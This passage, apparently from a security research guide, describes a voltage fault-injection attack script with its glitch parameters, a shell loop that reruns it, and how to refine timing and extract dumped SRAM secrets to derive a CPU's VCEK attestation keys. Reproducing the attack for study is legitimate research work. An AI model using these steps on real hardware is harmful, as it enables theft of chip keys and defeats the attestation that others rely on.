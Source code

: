 ```py
gs.attack_range(
    # perform 1000 attacks
    count=1000,
    # cs pulses to wait
    waits=29,
    # vid of the attack
    vid=0xa0,

    # sample the delay from the interval [delay_min, delay_max[
    delay_min=3108,
    delay_max=5104,

    # sample the duration from the interval [dur_min, dur_max[
    dur_min=920,
    dur_max=950
)

```
We can execute this script in a scripted loop:
```
$ while true; do python -u attack.py | tee -a attack_1.log; done
```
To check on our progress we use grep:
```
$ grep succ attack_1.log
```
Once we have successfully executed an attack, we should check the trace captured with our logic analyzer and verify that `Hello, World!` has been written to the SPI bus.

We can use the parameters of the successful attempt to refine the attack parameters.
Usually we begin by limiting the `delay` parameter to a window of +-50 parameters around the delay of the successful attempt.

From the logic trace of the attack we should be able to extract the dumped SRAM contents, which include secrets that can be used to derive all VCEKs for the CPU.

